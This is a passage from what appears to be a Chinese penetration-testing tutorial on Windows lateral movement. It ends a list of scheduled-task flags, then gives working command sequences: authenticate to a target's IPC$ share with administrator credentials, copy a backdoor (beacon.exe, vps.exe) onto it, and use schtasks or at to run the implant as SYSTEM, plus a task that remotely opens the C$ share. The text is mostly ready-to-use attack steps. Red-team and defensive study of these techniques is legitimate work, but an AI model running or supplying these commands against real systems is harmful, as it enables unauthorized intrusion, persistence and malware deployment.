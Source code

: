 /z    在任务计划完成后删除任务计划
/f    在创建任务时如果任务已存在不显示警告
/RL   为作业设置运行级别。有效值为LIMITED 和 HIGHEST。默认值为 LIMITED。
/F    如果指定的任务已经存在，则强制创建任务并抑制警告。</code></pre>
<hr/>
5、常用命令：
<pre><code>schtasks /create /s 192.168.*.* /tn test /sc HOURLY /mo 1 /tr c:\vps.exe /ru system /f    #在目标主机上创建一个名为test的计划任务，启动程序为C:\vps.exe，启动权限为system，启动时间为每隔一小时启动一次


schtasks /query | findstr test                    #查询该test计划任务
schtasks /run /s 192.168.*.* /i /tn "test"        #启动该test计划任务
schtasks /delete /s 192.168.*.* /tn "test" /f     #删除该test计划任务

注意：查看目标主机时间（可能不一样的，嘿嘿嘿）

#创建计划任务
schtasks /create /tn "plugin_update" /tr c:\windows\temp\plugin_update.exe /sc once /st 12:00 /S 192.168.*.* /RU System /u administrator /p "密码"

#立即执行计划任务
schtasks /run /tn "plugin_update" /S 192.168.*.* /u administrator /p "密码"

#删除计划任务
schtasks /F /delete /tn "plugin_update" /S 192.168.*.* /u administrator /p "密码"

#计划任务远程开启默认共享
schtasks /create /tn "plugin_update" /tr "cmd /c net share c$=c:" /sc once /st 12:00 /S 192.168.*.* /RU System /u administrator /p "密码"</code></pre>



---


---


---


---


## 三、利用示例

> 
<h3>1、流程：</h3>
1）横向移动：ipc连接----&gt;创建计划任务(at|schtasks)----&gt;执行计划任务---&gt;impacket-atexec尝试连接
<hr/>
2）上线：复制后门/利用命令下载后门----&gt;执行后门文件/相关命令


> 
<h3>2、示例：</h3>
1）at命令
<pre><code>net use \\192.168.3.21\ipc$ "密码" /user:god.org\administrator     # 建立ipc连接（域名主机名）
copy beacon.exe \\192.168.*.*\c$       #上传马：copy执行文件到目标主机
net time \\192.168.*.*                 #查看时间
at \\192.168.*.* 12:00 c:\beacon.exe   #添加计划任务
</code></pre>
<hr/>
2）schtasks命令
<pre><code>net use \\192.168.*.*\ipc$ "密码" /user:god.org\administrator # 建立ipc连接（域名主机名）
copy beacon.exe \\192.168.*.*\c$           #复制文件到其C盘
net time \\192.168.*.*                     #查看时间
schtasks /create /s 192.168.*.* /u administrator /p 密码 /sc DAILY /tn beacon /tr 'c:\4.exe'  /ST 12:00 /f                   #创beacon任务对应执行文件
schtasks /run /s 192.168.*.* /tn beacon /i        #运行beacon任务
schtasks /delete /s 192.168.*.* /tn beacon /f     #删除beacon任务</code></pre>
